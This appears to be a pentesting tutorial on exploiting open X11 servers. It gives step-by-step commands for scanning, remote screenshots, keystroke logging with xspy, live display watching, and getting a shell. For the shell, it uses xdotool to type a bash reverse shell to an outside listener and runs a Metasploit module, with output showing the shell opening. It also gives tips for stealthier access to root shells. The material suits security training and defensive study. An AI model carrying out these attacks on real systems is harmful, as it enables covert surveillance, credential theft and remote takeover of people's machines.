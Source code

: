 # X11 Hacking

https://zachgrace.com/training/X11.html

## Attacker Setup

Install some required packages:
```
apt-get install x11-utils xutils-dev imagemagick libxext-dev xspy
```
## Installing xwatchwin
```
wget http://www.ibiblio.org/pub/X11/contrib/utilities/xwatchwin.tar.gz
tar zxvf xwatchwin.tar.gz
cd xwatchwin/
xmkmf && make && make install
```
## Reconnaissance

X11 generally runs on ports 6000-60063, however it’s most typically found on ports 6000-6002. We can use Nmap to scan for and identify X11.
```
root@pwnlab-kali-mini:~# nmap -sV -n -v -p 6000-6002 172.16.31.102

Starting Nmap 6.47 ( http://nmap.org ) at 2016-02-02 22:29 EST
NSE: Loaded 29 scripts for scanning.
Initiating ARP Ping Scan at 22:29
Scanning 172.16.31.102 [1 port]
Completed ARP Ping Scan at 22:29, 0.00s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 22:29
Scanning 172.16.31.102 [3 ports]
Discovered open port 6000/tcp on 172.16.31.102
Completed SYN Stealth Scan at 22:29, 0.00s elapsed (3 total ports)
Initiating Service scan at 22:29
Scanning 1 service on 172.16.31.102
Completed Service scan at 22:29, 6.01s elapsed (1 service on 1 host)
NSE: Script scanning 172.16.31.102.
Nmap scan report for 172.16.31.102
Host is up (0.00044s latency).
PORT     STATE  SERVICE VERSION
6000/tcp open   X11     X.Org (open)
6001/tcp closed X11:1
6002/tcp closed X11:2
MAC Address: 08:00:27:1A:F3:00 (Cadmus Computer Systems)
Service Info: OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.21 seconds
           Raw packets sent: 4 (160B) | Rcvd: 4 (152B)
```
## Gathering Window Info
Before we start exploiting the system, it’s useful to gather some information about the windows. The xwininfo command
```t
root@pwnlab-kali-mini:~# xwininfo -root -tree -display 172.16.31.102:0

xwininfo: Window id: 0x101 (the root window) (has no name)

  Root window id: 0x101 (the root window) (has no name)
  Parent window id: 0x0 (none)
     40 children:
     0x30002a7 "update-manager": ()  10x10+-100+-100  +-100+-100
     0x3000003 (has no name): ("update-manager" "Update-manager")  254x98+0+0  +0+0
        1 child:
        0x3000004 (has no name): ()  1x1+-1+-1  +-1+-1
     0x3000001 "update-manager": ("update-manager" "Update-manager")  10x10+10+10  +10+10
        1 child:
        0x3000002 (has no name): ()  1x1+-1+-1  +9+9
     0x2e00003 "update-notifier": ()  10x10+-100+-100  +-100+-100
     0x2e00001 "update-notifier": ("update-notifier" "Update-notifier")  10x10+10+10  +10+10
        1 child:
        0x2e00002 (has no name): ()  1x1+-1+-1  +9+9
     0x2c00001 "applet.py": ("applet.py" "Applet.py")  10x10+10+10  +10+10
        1 child:
        0x2c00002 (has no name): ()  1x1+-1+-1  +9+9
     0x1c00001 (has no name): ()  10x10+-20+-20  +-20+-20
     0xe00001 "Terminal": ("gnome-terminal" "Gnome-terminal")  10x10+10+10  +10+10
        1 child:
        0xe00002 (has no name): ()  1x1+-1+-1  +9+9
     0x1200068 (has no name): ()  10x10+0+0  +0+0
```
## Screenshot The Display

The xwd tool can be used to create a screenshot of the remote desktop.

```
xwd -root -screen -silent -display 10.10.10.10:0 > screenshot.xwd
convert screenshot.xwd screenshot.png
```

## Exploitation

### Keystroke logging

Keystroke logging can be accomplished using the xspy tool.

```
root@pwnlab-kali-mini:~# xspy
opened 172.16.31.102:0 for snoopng
test
```

### Watching The Display

To watch the display, you can use xwatchwin to watch a specific window or the entire desktop using the root window identifier.

```
./xwatchwin -u 0.5 172.16.31.102:0 root
```

### Getting Shell

#### Method 1: xdotool

```
xdotool key alt+F2
xdotool type 'xterm'
xdotool key KP_Enter
xdotool type --delay 50 'bash -i >& /dev/tcp/192.168.59.10/4444 0>&1'
xdotool key KP_Enter
```

On the attacker machine, catch the reverse shell:
```
nc -lnvp 4444

listening on [any] 4444 ...
connect to [192.168.59.10] from (UNKNOWN) [192.168.59.3] 52876
vagrant@pwnlab-x11:~$
```
#### Method 2: Metasploit
A recent Metasploit module was released and has simplified this attack by registering a virtual keyboard, then typing in the specified payload.
```
016-02-03 07:07:30 - S:0 J:0  > use exploit/unix/x11/x11_keyboard_exec
2016-02-03 07:07:32 - S:0 J:0  exploit(x11_keyboard_exec) > show options

Module options (exploit/unix/x11/x11_keyboard_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOST      172.16.31.102    yes       The target address
   RPORT      6000             yes       The target port
   TIME_WAIT  5                yes       Time to wait for opening GUI windows in seconds


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.59.10    yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   xterm (Generic)


2016-02-03 07:07:36 - S:0 J:0  exploit(x11_keyboard_exec) > set LHoST 192.168.59.10
LHoST => 192.168.59.10
2016-02-03 07:07:52 - S:0 J:0  exploit(x11_keyboard_exec) > exploit

[*] Started reverse TCP handler on 192.168.59.10:4444
[*] 172.16.31.102:6000 - Register keyboard
[*] 172.16.31.102:6000 - Opening "Run Application"
[*] 172.16.31.102:6000 - Waiting 5 seconds...
[*] 172.16.31.102:6000 - Opening xterm
[*] 172.16.31.102:6000 - Waiting 5 seconds...
[*] 172.16.31.102:6000 - Typing and executing payload
[*] Command shell session 1 opened (192.168.59.10:4444 -> 192.168.59.3:61742) at 2016-02-03 07:09:20 -0600

id
uid=1000(vagrant) gid=1000(vagrant) groups=4(adm),20(dialout),24(cdrom),46(plugdev),108(lpadmin),109(sambashare),110(admin),1000(vagrant)
```
### Don’t Forget About Desktops!

Most Linux window managers have multiple desktops. I’ve come across an open X11 server on an engagement with nothing on the first desktop, but a root shell on a different one. Using the xdotool, you can change which desktop you’re viewing and manipulating. Be warned, This desktop switch would be visible to anyone else viewing the desktop.

```
export DISPLAY=172.16.31.102:0
xdotool get_desktop
0
xdotool set_desktop 1
```

A stealither way of exploiting this root shell would be to comb through the xwininfo output, and using the window option of xdotool to send commands directly to the window.

## References

https://barcodereader.wordpress.com/2009/02/19/how-to-secertly-watch-in-x/
http://x8x.net/2014/09/16/x11-pentesting-techniques/
http://pipefish.me/2012/08/28/spying-on-screens-and-keystrokes-the-dangers-of-open-x11/
http://colesec.inventedtheinternet.com/more-x11-hacking-with-xspy-and-xwatchwin/

tags: #linux #links #pentest 
